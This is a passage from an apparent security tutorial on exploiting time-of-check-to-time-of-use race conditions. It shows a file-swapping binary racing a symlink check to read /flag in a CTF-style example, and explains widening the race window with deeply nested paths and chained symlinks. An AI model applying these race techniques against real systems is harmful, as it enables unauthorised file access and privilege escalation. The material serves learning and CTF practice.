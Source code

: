 ```shell-session
$ gcc swap.c -o swap -O3 -static
$ ./swap [file] [link]
```

Running this binary will swap the files you provide very quickly (\~25.000/s). We can exploit the symlink example if we prepare a regular file and a symlink file, then swap them with this binary:

```shell-session
$ echo 'Hello, world!' > file
$ ln -s /flag link
$ ./swap file link

# # In a new terminal
$ while true; do ./read.sh file; done
...
Hello, world!
Error: File is a symlink.
Hello, world!
CTF{f4k3_fl4g_f0r_t3st1ng}
```

You will notice there are 0 errors of "No such file or directory", because we are never removing files, only _renaming_ them.

### Increasing the Window

The more stuff in between the check and the use, the higher the chance of success. If it takes a few seconds you may even be able to reliably exploit it manually without needing a script. Increasing this delay can be possible if you have some level of control over the operation. If some folder is removed there, for example, you could create a huge recursive structure of folders that would take some time to delete.&#x20;

Another trick for the filesystem specifically, is when you provide a path for the file that should be opened. The deeper in **nested folders** your file is, the longer it will take Linux to find the file, as it has to keep entering directories and searching for the next one (paths are limited to 4096 bytes). This can be increased even more by using a **chain of symlinks** that eventually leads to your file (Linux limits you to 40 symlinks). Combining these can make a very slow path to follow, taking multiple times more milliseconds than a direct path. This is called a "filesystem maze".

<pre class="language-shell-session"><code class="lang-shell-session"># # Can be up to 4096 bytes long
<strong>$ cat a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/p/q/r/s/t/u/v/w/x/y/z/file.txt
</strong># # Create chains of symlinks for a giant path
./a_end ----------------V
<strong>./a/1/2/3/4/5/6/7/8/9/root
</strong>V-----------------------^
./b_end ----------------V
<strong>./b/1/2/3/4/5/6/7/8/8/root
</strong>V----------...----------^
./t_end ----------------V
<strong>./t/1/2/3/4/5/6/7/7/8/root
</strong>V---------------------^ 
<strong>file.txt
</strong># # Now each symlink can have a 4096 path, and they can be referenced by the short 
# # ./a_end/b_end/.../t_end/file.txt
</code></pre>


[^1]: `0xe`